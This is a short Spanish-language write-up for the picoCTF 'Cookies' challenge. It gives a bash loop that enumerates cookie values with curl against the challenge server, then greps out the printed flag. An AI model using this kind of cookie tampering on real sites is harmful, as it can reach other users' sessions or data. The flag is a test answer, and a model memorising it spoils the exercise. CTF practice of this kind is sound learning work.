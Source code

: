 
Descripcion:
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:27177/](http://mercury.picoctf.net:27177/).

Solucion(s):
└─$ for i in {0..20}; do curl -s http://mercury.picoctf.net:27177/check -H "Cookie: name=$i"; done | grep picoCTF

picoCTF{3v3ry1_l0v3s_c00k135_064663be}

Notas:
se utiliza un ciclo for para cambiar el valor de la cookie, y asiendo una peticion por cada variable
final mente con el comando grep filtramos la bandera.
Referencias:
https://www.youtube.com/watch?v=LseQ-XWCXVo&list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&index=12